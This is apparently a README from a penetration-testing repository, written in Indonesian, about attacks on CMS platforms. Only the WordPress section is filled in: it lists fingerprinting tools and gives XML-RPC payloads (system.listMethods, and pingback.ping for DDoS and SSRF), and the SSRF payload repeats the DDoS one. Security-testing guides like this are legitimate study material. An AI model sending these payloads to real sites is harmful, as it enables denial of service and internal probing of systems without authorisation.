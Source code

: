 # CMS (Content Management System)
## Definisi

Content Management System (CMS) adalah sebuah platform software yang yang memungkinkan pengguna untuk membangun dan mengelola situs web dengan pengetahuan dan sumber daya teknis yang terbatas. Ini memungkinkan pengguna untuk membuat, mengelola, dan memodifikasi konten di situs web dengan Graphic User Interface (GUI) yang membuat interaksi menjadi user friendly tanpa memerlukan pengetahuan teknis apa pun.

## Beberapa Platform yang **Mungkin** rentan akan CMS
1. [Wordpress](https://github.com/rad1zly/penetration-testing/blob/main/Teknik-Serangan/CMS/README.md#teknik-serangan-pada-platform-wordpress)
2. [Adobe Experience Manager](https://github.com/rad1zly/penetration-testing/tree/main/Teknik-Serangan/CMS#teknik-serangan-pada-platform-adobe-experience-manager)
3. [Drupal](https://github.com/rad1zly/penetration-testing/tree/main/Teknik-Serangan/CMS#teknik-serangan-pada-platform-drupal)
4. [Moodle](https://github.com/rad1zly/penetration-testing/tree/main/Teknik-Serangan/CMS#teknik-serangan-pada-platform-moodle)

## Teknik Serangan pada platform Wordpress
Berikut merupakan beberapa *security misconfiguration* yang biasa terjadi pada platform Wordpress beserta *tools* yang bisa digunakan untuk mendeteksi terjadinya kerentanan tersebut. 

### Tool untuk deteksi
1. [Wappalyzer](https://www.wappalyzer.com/)
2. [WhatRuns](https://www.whatruns.com/)
3. [BuildWith](https://builtwith.com/)
4. [WpScan](https://github.com/wpscanteam/wpscan)
5. [XMLRPC-Scan](https://github.com/nullfil3/xmlrpc-scan)

### xmlrpc.php
Ini merupakan kerentanan paling umum pada wordpress, cara mendeteksi kerentanan tersebut adalah sebagai berikut :
* kunjungi site dari ```siteyangdituju.com/xmlrpc.php```
* Mendapatkan pesan error tentang *POST request only*

Kemudian berikut cara melakukan exploitnya:
* Lakukan *intercept* pada *request* dan ubah *method* GET ke POST
* Kemudian masukan payload ini saat POST untuk melihat semua *Method* yang bisa digunakan
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Lihat apabila ada *method* ```pingback.ping``` pada list yang ditampilkan
* Jika ada *method* diatas maka bisa dilakukan DDoS dengan *payload* berikut:
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```
* Selain itu juga bisa dilakukan serangan SSRF (Khusus untuk port internal) dengan payload berikut:
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```

## Teknik Serangan pada platform Adobe Experience Manager

## Teknik Serangan pada platform Drupal

## Teknik Serangan pada platform Moodle

## Author
**[rad1zly](https://github.com/rad1zly)**


